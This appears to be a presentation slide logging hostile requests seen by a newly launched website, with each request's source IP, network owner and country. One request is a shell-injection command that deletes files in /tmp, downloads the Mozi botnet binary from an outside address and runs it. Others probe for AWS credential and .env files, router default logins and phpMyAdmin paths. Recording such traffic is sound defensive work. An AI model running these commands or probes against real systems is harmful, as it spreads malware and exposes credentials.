

# Request list
List of all requests send to our new site

| Request | IP | Whois | Country |
| --- | --- | --- | --- |
| /shell?cd+/tmp;rm+-rf+\*;wget+http://171.38.239.187:48934/Mozi.a;chmod+777+Mozi.a;/tmp/M | 171.38.239.187 | China Unicom GuangXi province network | China |
| /aws/credentials /.aws/credentials /demo/.env /web/.env | 109.237.97.180 | LLC Company Interlan Communications | GB -> Russia |
| /?XDEBUG\_SESSION\_START=phpstorm | 152.89.196.211 | Starcrecium Limited | Russia -> Cyprus |
| /boaform/admin/formLogin?username=user&psd=user | 118.252.86.68 | ChinaNet Hunan Province Network | China |
| /administrator/phpMyAdmin/index.php?lang=en /db/phpMyAdmin3/index.php?lang=en /mysql/admin/index.php?lang=en | 183.77.131.179 | Asahi Net Inc. | Japan |